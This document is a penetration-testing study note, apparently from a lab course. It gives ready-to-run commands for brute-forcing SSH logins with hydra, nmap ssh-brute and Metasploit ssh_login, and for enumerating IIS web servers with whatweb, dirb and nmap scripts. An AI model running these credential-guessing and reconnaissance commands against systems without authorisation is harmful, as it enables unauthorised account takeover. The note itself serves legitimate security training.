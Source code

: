 ### SSH Dictionary Attack ###

Can use <mark style="background: #D2B3FFA6;">hydra</mark> to attack SSH users by specifying `ssh`
+ Example: `hydra -l student -P /usr/share/wordlists/rockyou.txt 192.198.157.3 ssh`
	+ In the above account, we are attacking user=student

Can also <mark style="background: #FFB86CA6;">nmap BruteForce</mark> instead of hydra
+ using `--script ssh-brute`
	+ Example: `nmap IP --script ssh-brute --script-args userdb=/root/users -p 22`

Or can use <mark style="background: #FF5582A6;">mfsconsole</mark> instead of hydra
+ using `use auxiliary/scanner/ssh/ssh_login`
	+ `set rhosts 192.198.157.3`
	+ `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
	+ `set STOP_ON_SUCCESS true`
	+ `set verbose true`

## HTTP Lesson ##

### HTTP IIS (Windows) ###

<mark style="background: #BBFABBA6;">HTTP</mark> is for hosting websites, a big part of the internet 

<mark style="background: #D2B3FFA6;">whatweb</mark>
+ A good tool for getting more information about a server
+ Will test for some vulnerabilities 
+ Example: `whatweb IP`

 <mark style="background: #D2B3FFA6;">HTTPie</mark> (Linux command: http)
+ more server type info and header information 
+ Microsoft IIS will use the .aspx filetype
+ Example `http IP`

<mark style="background: #D2B3FFA6;">Dirb</mark>
+ Will enumerate lots of information 
+ Looks for directories 
+ Example: `dirb http://IP/ CAN_SPECIFY_WORLIST`

<mark style="background: #D2B3FFA6;">browsh</mark>
+ Will render the website in the command line 
+ Example: `browsh --startup-url http://IP/`

### HTTP IIS (Windows) Nmap Scripts ###

<mark style="background: #FFB86CA6;">http-enum</mark>
+ nmap script that will also return a select list of common directory enumeration 
+ Example: `nmap 10.4.16.92 -p 80 --script http-enum`

<mark style="background: #FFB86CA6;">http-header</mark>
+ will return more information about the website from its header, including vulnerabilities and protections 
+ Example: `nmap 10.4.16.92 -p 80 --script http-header`
